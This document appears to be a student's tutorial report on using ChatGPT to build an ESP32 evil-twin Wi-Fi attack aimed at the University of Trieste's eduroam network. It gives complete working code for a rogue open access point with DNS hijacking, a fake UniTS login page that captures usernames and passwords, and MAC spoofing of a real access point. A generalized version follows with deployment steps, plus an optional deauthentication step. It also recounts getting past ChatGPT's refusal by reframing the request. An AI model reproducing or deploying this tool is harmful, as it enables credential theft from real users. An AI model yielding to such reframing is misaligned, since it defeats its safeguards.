



# Developing an ESP32 EvilTwin attack tool using ChatGPT

## Preface


With the rise of LLMs, many things changed. One of those things is coding; users that previously didn't know how to code can now use natural language to prompt LLMs to generate relatively complex code. This code more often than not doesn't comply with industry standards in terms of quality/security, but it is much better than what someone with basic knowledge in coding could do by himself. (Not to mention the time saved)

This phenomenon is called **"Vibe Coding"**. 

This brings us to the goal of this report: a student with general knowledge in coding will build an attack tool and (hopefully) demonstrate how chaining the use of **"exploiting" LLMs for malicious purposes** and the **"vulnerabilities" present in people** could allow adversaries access to public or industry infrastructure with potentially catastrophic results. 


## Introduction
The idea is to leverage the use of ChatGPT and build a generic EvilTwin attack tool. To do so, we will first focus on building it for a specific purpose, in this case attacking UniTS. We will then proceed with generalizing the code and building instructions to use this tool on ESP32 devices. 

We will exploit the fact that users often get random disconnections from eduroam and try to connect to it manually. 
This is most noticeable in areas near the dining hall as eduroam doesn't fully cover it, or during class where professors under the pressure of time try to connect unsuccessfully to the eduroam wifi, only to give up and choose a wired connection and get prompted to login while simultaneously blaming the university or eduroam itself for the unnecessary authentication checkup. 

It is this last experience where this idea came from. 


## DETAILED PLAN

The idea is to create a generic tool for performing evil twin attacks using the ESP32 microcontroller. To do so, we will first "exploit" an LLM (in this case, ChatGPT) to get a working code that performs an evil twin attack on the University of Trieste that we will later generalise and build the necessary instructions for using the tool.

To program the ESP32 microcontroller, we will use the Arduino IDE (2.3.6) as it is an easy and effective way to program the ESP32. We will also need to use the Legacy Arduino IDE (1.8.19) as we will need a tool called "[Arduino ESP32 filesystem uploader plugin](https://github.com/me-no-dev/arduino-esp32fs-plugin)", which isn't compatible with the latest versions of arduino IDE. We could use just the legacy IDE but the new one is faster and more powerful; thus, we will mostly use that one to compile and upload our code to the ESP32.

As we will be "Vibe Coding" we need to have a clear idea of what we want to do while also taking into consideration what can be done. This is because we don't want to let the LLM lead the programming flow and thus deviate and mess up the code more than it should (LLM hallucination). It works best when we have a clear goal. 

We also need to take into consideration what can be done: the ESP32 is a cheap microcontroller, and it cannot do complex tasks. 
Having this in mind, we will ask ChatGPT to create lightweight copies of the login HTML pages used by the university APs. Also we won't try to use deauthentication*, but we will instead leverage the random disconnections and limited coverage of the eduroam network on the campus.


### Short summary of the process: 

+ Create a code that will make an AP with SSID "eduroam" on the ESP32 device
+ Make the code prompt the users to "log in to use this network" by a push notification
+ Redirect to a login webpage similar to the Units Eventi Wifi login page
+ Save the login data onto a separate webpage hosted on the ESP32
+ Give a "connection successful" notice to the victim
+ Generalize the code and build the instructions to create a usable tool


## PREREQUISITES
+ ESP32 microcontroller
+ Arduino IDE (Latest)
+ Arduino Legacy IDE (1.8.19)
+ [Arduino ESP32 filesystem uploader plugin](https://github.com/me-no-dev/arduino-esp32fs-plugin)
+ LLM (ChatGPT)
+ Basic programming knowledge
+ ESP 8266*


\* See STEP 9


## STEP 1: Initial Setup
We need to configure Arduino IDE to work with the ESP32. We can do that by connecting the ESP32 microcontroller with the PC via USB. On the Arduino IDE under "Select board and port", we need to specify the correct port and when asked for the board, choose the DOIT ESP32 DEVKIT V1. After having done that, we will load a simple example program that will verify that we have set up everything correctly. We can do that by clicking on:

File -> Examples -> 01.Basics -> Blink

and then clicking the Upload button, which will compile the code and upload it to the microcontroller. If everything was done right, the blue LED on your device should blink on and off.


## STEP 2: Code Generation
For this project I will use ChatGPT, but any LLM should be fine. 
This is where we run into our first problem. As you can see from the image, when asked directly, ChatGPT isn't very keen on writing such a piece of code, as it has detected it as potentially hazardous. Fortunately for us (unfortunately for the victims), there is a quick way of bypassing this issue: lying.




  
## STEP 3: Lying To The LLM

As we saw, the LLM model is censured. We can easily fix this problem by "lying" (in this case, telling the truth) to the LLM.

As you can see from the image, the LLM is happy to help now, and we can proceed. 
The basic approach we will follow when talking to the LLM is the one where we don't bury it with details from the start. We want a solid base, and only after that will we work our way up to the details. 
That is why in this prompt we are not asking it to create a specific fake login website and other specific requirements that would complicate its job. We are building the foundations, brick by brick.


## STEP 4: First Working Code
Now that we avoided getting censured, we asked ChatGPT to generate the code. 
We used multiple prompts trying to "engineer" them in a way that would produce working code while at the same time testing and refining the provided output with the help of the LLM. 
After roughly 60 minutes we get our first working code:

```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>

// AP config
const char* ssid = "eduroam";  // Open network, no password
IPAddress apIP(192, 168, 4, 1);
IPAddress netMsk(255, 255, 255, 0);

// DNS server
const byte DNS_PORT = 53;
DNSServer dnsServer;

// Web server
WebServer server(80);
String capturedData = "";

// HTML login page (based on UniTS)
const char* loginPage = R"rawliteral(
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>UniTS events network - Login required</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <style>
    body { font-family: Arial, sans-serif; background-color: #f2f2f2; padding: 2em; }
    .container { max-width: 400px; margin: auto; background: #fff; padding: 2em; border-radius: 8px; }
    input[type=text], input[type=password] {
      width: 100%; padding: 10px; margin: 8px 0; box-sizing: border-box;
    }
    button {
      width: 100%; padding: 10px; background-color: #0056b3; color: white; border: none; border-radius: 4px;
    }
    h3, p { text-align: center; }
  </style>
</head>
<body>
  <div class="container">
    <h3>University of Trieste's EDUROAM Network</h3>
    <p>Please enter your UniTS credentials to use EDUROAM</p>
    <form action="/login" method="POST">
      <input type="text" name="username" placeholder="Username (ex. s28xxxx)" required>
      <input type="password" name="password" placeholder="Password" required>
      <button type="submit">Login</button>
    </form>
    <p style="font-size: 0.8em;">By logging in, you accept the network usage policy.</p>
  </div>
</body>
</html>
)rawliteral";

void handleRoot() {
  server.send(200, "text/html", loginPage);
}

void handleLogin() {
  String user = server.arg("username");
  String pass = server.arg("password");

  capturedData += "Username: " + user + " | Password: " + pass + "\n";
  Serial.println("[+] Captured:");
  Serial.println("User: " + user);
  Serial.println("Pass: " + pass);

  server.send(200, "text/html", "<h3>Login successful. You may now browse the internet.</h3>");
}

void handleData() {
  server.send(200, "text/plain", capturedData);
}

void handleNotFound() {
  server.sendHeader("Location", "http://192.168.4.1/", true);
  server.send(302, "text/plain", "");
}

void setup() {
  Serial.begin(115200);
  delay(1000);

  // Start open AP
  WiFi.softAPConfig(apIP, apIP, netMsk);
  WiFi.softAP(ssid);  // open AP, no password

  Serial.println("[*] Open AP 'eduroam' started");
  Serial.print("[*] IP address: ");
  Serial.println(WiFi.softAPIP());

  // DNS: resolve all domains to ESP IP
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web routes
  server.on("/", handleRoot);
  server.on("/login", HTTP_POST, handleLogin);
  server.on("/data", handleData);
  server.onNotFound(handleNotFound);

  server.begin();
  Serial.println("[*] Web server started");
}

void loop() {
  dnsServer.processNextRequest();
  server.handleClient();
}
```
This code will serve as our foundation. As you can see, it provides a basic HTML login page that we will need to modify, and it has a few issues, like the fact that it isn't prompting to log in on newer Windows versions (from Windows 10 22H2 to Windows 11), but it works fine on Android. 
This problem will be polished later. 


## STEP 5: Modifying The Code
Now that we have a working code, it is time to analyse it and modify certain aspects that will make the attack more successful. As stated earlier, our code provides a basic login page that isn't very convincing, so we will fix that.

Since we are quite happy with the look of the webpage, we will keep the HTML code, but we need to add the UniTS logo, which will make everything nicer. To do that we need to make use of SPIFFS (Serial Peripheral Interface Flash File System) on the ESP32 by using the [Arduino ESP32 filesystem uploader plugin](https://github.com/me-no-dev/arduino-esp32fs-plugin) for the Legacy Arduino IDE (1.8.19) to upload the files to the microcontroller mamory which will then be available for the code to access when needed.

To do that, we follow this guide, ```https://github.com/me-no-dev/arduino-esp32fs-plugin``` and we'll set up the plugin. After setting it up, we restart the Legacy Arduino IDE v1.8.19 and create a folder named data in our Arduino project folder. The data folder is the one where we will store our index.html fake login page and other files required by index.html, like logo.png.  

Having done that, we proceed with our "Vibe Coding" as usual. The result can be seen in the image.




## STEP 6: Fixing Problems
While testing, the following problems were found and fixed:

+ While testing the attack, we noticed that newer windows 10 versions (22H2) don't prompt the user to log in automatically, while older Windows versions like 19H1 and 19H2 do.
After looking it up, the root cause seems to be the NCSI (Network Connectivity Status Indicator) trigger and the fact that it seems that the DNS server address needs to be set to be determined automatically on the victims' device; otherwise, the redirection doesn't work (since if the DNS server address is set manually the victim always tries to contact the manualy set DNS server, thus ignoring our one and subsequently failing the NCSI requirements and thus not redirecting us automatically to the fake login page.

  This issue was noticed using Wireshark and it was fixed only after setting the DNS address to "automatic" and implementing the CaptivePortal example provided by the ESP32 example library directly into our code.

+ When Windows recognises two APs with the same SSID the newer one gets renamed. That means that our fake eduroam AP will appear as eduroam 2 on victims' devices if they already used the real eduroam AP, which is probably the case.
  This makes our attack more suspicious, so to fix it, we will add a character that will make it different from the original eduroam.
  Adding invisible characters like ‎‎[U+200E] seems to break the redirection on Windows so we opted for a simpler approach, and from this line of code:

   ```cpp
  const char* ssid = "eduroam";  // Evil Twin SSID
  ```
  
  We modify it by adding a space at the end like so:

  ```cpp
  const char* ssid = "eduroam ";  // Evil Twin SSID
  ```
  Making it look different to Windows, but the same to users.

  


## STEP 7: MAC Spoofing
Now that we have a fully working Evil Twin AP, we can add the ability for the ESP32 to spoof MAC addresses. This allows us to use a legitimate MAC address of a real AP in the university as our MAC address. 
Spoofing the MAC address that is already known to the network, and thus to devices connected to it, enhances the stealth and credibility of the evil twin attack, making it more effective since it will create confusion between victim devices, thus helping us in acheeving our goal.

We can easily obtain a legitimate MAC address by using a tool like WifiInfoView by Nirsoft while in range of the eduroam WiFi network. 

To make use of this, we need to add the following lines of code:
```cpp
uint8_t customMAC[] = { 0x9C, 0x8C, 0xD8, 0xC9, 0xCA, 0x50 }; // Replace with target MAC
esp_wifi_set_mac(WIFI_IF_AP, customMAC);
```
just before the line where our SSID is set: ```WiFi.softAP(ssid);``` and after the line that is configuring the AP IP settings: ```WiFi.softAPConfig(apIP, apIP, netMsk);```


## STEP 8: Generalising The Code And Providing a Guide To Use It
Now that the specific code is working, we proceed by generalizing the code so it can be easily adapted for other purposes (not just eduroam). 
Also we provide a short guide on how to use it down below.

Code:
```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <SPIFFS.h>

extern "C" {
  #include "esp_wifi.h"   // API Needed to handle MAC spoofing
}

// =================== Network Configuration =======================
const char* ssid = "choose_ssid ";  // Evil Twin SSID, leave space after name to avoid windows renaming your ssid
IPAddress apIP(192, 168, 4, 1);
IPAddress netMsk(255, 255, 255, 0);

// ====================== Server Setup =============================
DNSServer dnsServer;
WebServer server(80);

String capturedData = "";

// ===================== Credential Capture Handler =====================================
void handleLogin() {
  String user = server.arg("username"); // used to capture data
  String pass = server.arg("password"); // used to capture data
  capturedData += "Username: " + user + " | Password: " + pass + "\n";

  Serial.println("[+] Captured: " + user + " | " + pass);
  server.send(200, "text/html", "<h2>Authentication successful. You may now use choose_ssid.</h2>"); //fake page that informs that everything is successful
}

// ========================== View Captured Data ===========================
void handleData() {
  server.send(200, "text/plain", capturedData);
}

// ============================= Captive Portal Handler ====================================
void handlePortal() {
  // Serve index.html from SPIFFS when redirected to /portal
  File file = SPIFFS.open("/index.html", "r"); //load and open the file from SPIFFS
  if (!file) {
    server.send(500, "text/plain", "Login page not found");
    return;
  }
  server.streamFile(file, "text/html");
  file.close(); // Close the file 
}

// ====================== HANDLE POLICY (not necessary, if login has policy can be used to redirect here) ==============================
void handlePolicy() {
  // Serve policy.html from SPIFFS when redirected to /policy
  File file = SPIFFS.open("/policy.html", "r");
  if (!file) {
    server.send(500, "text/plain", "Policy page not found");
    return;
  }
  server.streamFile(file, "text/html");
  file.close();
}

// ====================== Fallback Redirect for Unknown Requests =================================
// this will redirect unknown http req's to our captive portal page
// based on this redirect various systems could detect that WiFi AP has a captive portal page
void handleNotFound() {
  server.sendHeader("Location", "/portal", true);
  server.send(302, "text/plain", "Redirecting to captive portal");
}


void setup() {
  Serial.begin(115200);
  delay(1000);

  // ======== Wi-Fi AP Configuration ======
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, netMsk);

  // ======== Setting Spoofed MAC ==========
  uint8_t customMAC[] = { 0x9C, 0x8C, 0xD8, 0xC9, 0xCA, 0x50 }; // Replace with target MAC
  esp_wifi_set_mac(WIFI_IF_AP, customMAC);
  delay(500);

  // ======== Wi-Fi AP Configuration cont. ======
  WiFi.softAP(ssid);
  delay(500);
  Serial.println("[*] Access Point 'choose_ssid' started");
  Serial.println(WiFi.softAPIP());
  Serial.println(WiFi.softAPmacAddress());
  
  // ========== SPIFFS Mount chechk ================
  if (!SPIFFS.begin(true)) {
    Serial.println("SPIFFS Mount Failed!");
    return;
  }

  // ============== DNS Spoof All Domains ================
  if (dnsServer.start(53, "*", apIP)) {
    Serial.println("[*] DNS server started in captive mode");
  } else {
    Serial.println("[!] Failed to start DNS server");
  }

  // =================================== Routes ======================================
  server.on("/", []() {
    server.sendHeader("Location", "/portal", true);
    server.send(302, "text/plain", "");
  });

  
  server.on("/portal", handlePortal);                   // Captive portal page
  server.on("/login", HTTP_POST, handleLogin);          // Form POST
  server.on("/data", HTTP_GET, handleData);             // View captured credentials
  server.on("/policy.html", handlePolicy);                     // Policy Page
  server.serveStatic("/logo.png", SPIFFS, "/logo.png"); // Serve logo (you need to serve the file you insert into spiffs!)
  server.serveStatic("/LogoPolicy.png", SPIFFS, "/LogoPolicy.png"); // Serve Policy logo
  server.onNotFound(handleNotFound);                    // Redirect everything else

  server.begin();
  Serial.println("[*] Web server started");
}


void loop() {
  dnsServer.processNextRequest();
  server.handleClient();
}


```

**IMPORTANT NOTE**: This code is designed to be used as a test and example of what an ESP32 can do in terms of Evil Twin attacks. It is designed to be used on the ESP32 temporarily, in order of minutes, not for a prolonged period of time. Also, the code is not designed to handle weird imputs that could provoke injection problems. 

For this reaason the following issues need to be fixed if someone wants to use this code on an ESP32 for prolonged periods of time. (For example, leaving it in an area to collect data)

ISSUES: 
+ This code is trusting ```server.arg()``` blindly, and it does not validate inputs to avoid injection issues or crashes.
+ Over time, the capturedData string will grow in memory. Leading to out-of-memory issues and crashes. 


### Guide: 
+ Install the Legacy Arduino IDE v1.8.19
+ Set up the [Arduino ESP32 filesystem uploader plugin](https://github.com/me-no-dev/arduino-esp32fs-plugin)
+ Create a folder
+ Inside the folder create a .txt file with the same name as the parent folder and a folder called "data"
+ Copy the code we just provided and paste it in the .txt file
+ Save the file and change the .txt extension to .ino
+ Modify the code according to your necessities
+ Open the .ino file with the Legacy Arduino IDE
+ Select: Tools > ESP32 Sketch Data Upload
+ Upload the code to the ESP32


## STEP 9 (OPTIONAL): Deauthenticator
To aid the process of users connecting to our evil twin AP, we can try to send deauthentication packets to disconnect the victim from the real access point, thus increasing the probability of getting a victim to connect to our "evil AP". 

Unfortunately, as we easily discovered by looking at the WiFi settings on Android and Windows, eduraom uses WPA3-Enterprise, which poses a problem since it strictly requires PMF (Protected Management Frames), which we cannot forge as we cannot sign them. 
But we also know that sometimes eduroam falls back onto older standards like WPA2-Enterprise for supporting older devices. Since in the WPA2 - Enterprise specification PMF are optional, we could try to use the tool ```https://deauther.com``` and an ESP8266 to send deauthentication packets to victims and hopefully boost our success rate by disconnecting users from the real AP. 

We expect that this won't do anything in terms of increasing our success rate since we assume the PMF option is generally enabled in most modern deployments.
While stronger devices and other methods to forge PMFs could be explored, that is beyond the scope of this demo.


## REFERENCES
+ [ChatGPT conversation](https://chatgpt.com/share/6845c69a-1494-800a-9eff-6a1886c53301)
+ [Arduino (Legacy) IDE](https://www.arduino.cc/en/software/)
+ [Arduino ESP32 filesystem uploader plugin](https://github.com/me-no-dev/arduino-esp32fs-plugin)
+ [ESP8266 Deauther](https://deauther.com/)
+ [WPA3 Specification](https://www.wi-fi.org/system/files/WPA3%20Specification%20v3.4.pdf)
+ [WiFI Alliance on PMFs](https://www.wi-fi.org/beacon/philipp-ebbecke/protected-management-frames-enhance-wi-fi-network-security)
+ [WifiInfoView by Nirsoft](https://www.nirsoft.net/utils/wifi_information_view.html)


